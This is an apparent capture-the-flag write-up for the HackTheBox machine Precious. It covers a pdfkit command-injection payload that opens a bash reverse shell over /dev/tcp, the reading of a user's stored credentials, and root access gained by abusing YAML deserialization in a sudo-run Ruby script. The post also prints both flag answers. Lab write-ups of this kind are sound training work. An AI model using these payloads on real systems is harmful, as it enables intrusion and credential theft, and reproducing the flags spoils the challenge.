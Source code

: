 ```yaml
---
layout: post
title: Precious
date: 2023-01-17 11:00 +0700
categories: [HTB, easy]
---
```


### Introduction

[Precious] is an easy CTF machine on HackTheBox focused on exploiting a **pdfkit** vulnerability and exploiting a **YAML Deserialization**.


![Precious](/images/HTB/precious/Precious.png)


---

Let's start scanning the machine with nmap.

```sh
nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
```

We can see there are 2 ports open, 22(ssh) and 80(http).

![scan](/images/HTB/precious/Captura.PNG)

Like we can see, we need to put the machine IP in our **/etc/hosts** file for works.

![web](/images/HTB/precious/Captura2.PNG)

```sh
nano /etc/hosts
or
echo '<IP> precious.htb' >> /etc/hosts
```

![hosts](/images/HTB/precious/Captura3.PNG)

Now we can see a **Web Page to PDF converter** in the site.

![web page](/images/HTB/precious/Captura4.PNG)

Let's open a python server to see if it makes a petition.

```sh
python3 -m http.server 80
```


![python server](/images/HTB/precious/Captura5.PNG)

Like we can see the server make a get petition.

![python server petition](/images/HTB/precious/Captura6.PNG)

Time to see the PDF metadata.

```sh
exiftool <pdf file>
```

Looking It we found some interesting in **Creator** part because It notices to us how it was Generated, and It is generated with **pdfkit**.

![exiftool pdf](/images/HTB/precious/Captura7.PNG)

If we research a little, we can found some interesting things about **pdfkit** version that is vulnerable.

![pdfkit search](/images/HTB/precious/Captura8.PNG)

There is vulnerable a **[Command Injection]** and if We read a little about it, We can make a payload to get a reverse shell with it.

![vuln](/images/HTB/precious/Captura9.PNG)

Time to prepare our listener.

```sh
nc -lvnp <port>
```

![netcat listener](/images/HTB/precious/Captura10.PNG)

And now let's submit the payload in the Web page to get our shell.

```sh
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/<IP>/<Port> 0>&1"`'}
```

![payload](/images/HTB/precious/Captura11.PNG)

If all was correct we will get a shell in the machine.

![netcat listener succ](/images/HTB/precious/Captura12.PNG)

Now is time to look around a little.

We can see an interesting directory called **.bundle**

Inner It we can found the user **henry** credentials.

```sh
cd /home/ruby
ls -la
cd .bundle
ls -la
cat config
```

![henry creds](/images/HTB/precious/Captura13.PNG)

Time to connect to the machine with the credentials.  

```sh
ssh henry@precious.htb
```

![ssh](/images/HTB/precious/Captura14.PNG)

Once in the machine, We can see the user flag.

```sh
ls -la
cat user.txt
```

![user flag](/images/HTB/precious/Captura15.PNG)

- User Flag
>Answer: b8d291368e14d422c8be561a8ba66408

Time to elevate our privileges!

If we look **sudo -l** we can run like root with no password the **ruby update_dependencies**.

```sh
sudo -l
```

![sudo -l](/images/HTB/precious/Captura16.PNG)

Looking the file, We can see that in a part read **dependencies.yml**.

```sh
cat /opt/update_dependencies.rb
```

So we can take advantage of this!

![cat update](/images/HTB/precious/Captura17.PNG)

Let's create a file with this [example] to abuse these permissions.

```sh
nano dependencies.yml
```

What We're going to do is change the /bin/bash permissions to make it SUID binary and get a root shell.

![file dependencies](/images/HTB/precious/Captura18.PNG)

Let's execute it.

```sh
sudo ruby /opt/update_dependencies.rb
```

![execute update](/images/HTB/precious/Captura19.PNG)

If all worked correctly, the binary now is SUID, and We can execute it and get our privilege escalation.

```sh
ls -l /bin/bash
```

![/bin/bash perms](/images/HTB/precious/Captura20.PNG)

It worked well so It's time to execute it.

```sh
bash -p
id
```

![user to root](/images/HTB/precious/Captura21.PNG)

Now We're root and can see the root flag.

```sh
cd /root/
cat root.txt
```

![root flag](/images/HTB/precious/Captura22.PNG)

- Root Flag
>Answer: c3568e870b4ae231b9c774efcb5c4c88

[precious]:https://app.hackthebox.com/machines/513
[Command Injection]:https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
[example]:https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
